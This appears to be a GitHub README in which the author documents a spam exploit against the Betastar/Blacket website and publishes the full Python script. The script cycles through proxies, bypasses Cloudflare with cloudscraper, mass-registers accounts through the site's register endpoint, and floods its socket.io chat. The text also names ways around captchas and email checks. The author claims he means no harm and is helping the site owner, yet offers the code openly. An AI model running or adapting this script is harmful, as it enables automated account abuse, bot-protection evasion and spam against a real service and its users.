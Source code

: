 ## I (l2vy7) discovered a HUGE spam exploit on Betastar.
All Betastar/Blacket API endpoints are insecure, and everyone knows that.  
But now, since Betastar has a chat function, insecurity makes exploits very awful.  


### How it's made: TrollSense for Betastar
Basically, I made a separate (private) proxy generator, and copied over the proxies to proxies.txt in the folder, and set up a proxy lister.  
I also implemented a CloudFlare bypassing ```requests``` wrapper because I'm not waiting hours for Undetected ChromeDriver to work.  
Since all logins are ip-based, and each time you load a page in Betastar, it checks with the login information provider, you don't even have to work with any HTTP cookies or anything. Just direct IPs, you can even skip the login information checking process if you want.  
After that, I just loop through the proxies, make accounts with random names and the password "THEWORLDISONFIRE", check for invalid proxies, rinse and repeat.  
Then, I find existing accounts and extend the current accounts if the accounts file exists.  
Finally, I loop through the working ips with accounts linked to them, use a requests session to connect to the chat server via a socketio-python client and the current proxy, and emit "smes" with a set message attached.


### How it stopped being made: Communication with Xotic.
He will implement captchas (can be bypassed with 2captcha and/or API endpoints will be left vulnerable) on registration pages, along with possible email verification (can be bypassed by Tempmail APIs). However, the API endpoints may still be insecure. I will update this if necessary and will try to give Xotic instructions on how to fix it.
Though I'm not entirely sure if this will affect socket.io data or the registration API, I'm 99% sure he will do something to stop this from working.  


I just kept this here as a documentation on how vulnerable websites can be easily exploited.  
**I'm helping Xotic fix this. Please note that I meant no harm in making this exploit.**

## The full code
I know you skids want the code, so here we go.  
This took around 45 minutes to an hour to develop and proxy scraping took like 30 minutes.

```py
from requests.exceptions import *
from os.path import exists
from faker import Faker
import cloudscraper
import traceback
import requests
import socketio
import logging
import random
import string
import base64
import sys

fake = Faker()

ips = []

for x in open('proxies.txt', 'r').read().split('\n'):
    scraper = cloudscraper.create_scraper(
        browser={
            'browser': 'chrome',
            'platform': 'android',
            'desktop': False
        },
        disableCloudflareV1=True
    )

    try:
        resp = scraper.post("http://betastar.org/api/register/", headers = {"User-Agent" : fake.chrome()}, data=("username=" + ''.join(random.choices(string.ascii_uppercase + string.digits, k = 7)) + "&password=" + base64.b64encode("THEWORLDISONFIRE".encode("utf-8")).decode("utf-8") ), proxies={"http" : 'http://'+x})
        print('Account created.')
        ips.append(x)
    except ProxyError as e:
        pass
    except HTTPError as e:
        pass
    except TooManyRedirects as e:
        pass
    except Exception as e:
        pass

if exists('accounts.txt'):
    ips.extend(open('accounts.txt', 'r').read().split('\n'))

for x in ips:
    with open('accounts.txt', 'w') as x1:
        x1.write(x + '\n')
    session = requests.session()
    session.proxies = {"http" : "http://"+x}
    sio = socketio.Client(http_session=session)
    sio.connect(
        'http://betastar.org/chat/',
        transports='websocket'
    )
    sio.emit('smes', 'Insecure API endpoint test worked.')
    sio.disconnect()
```
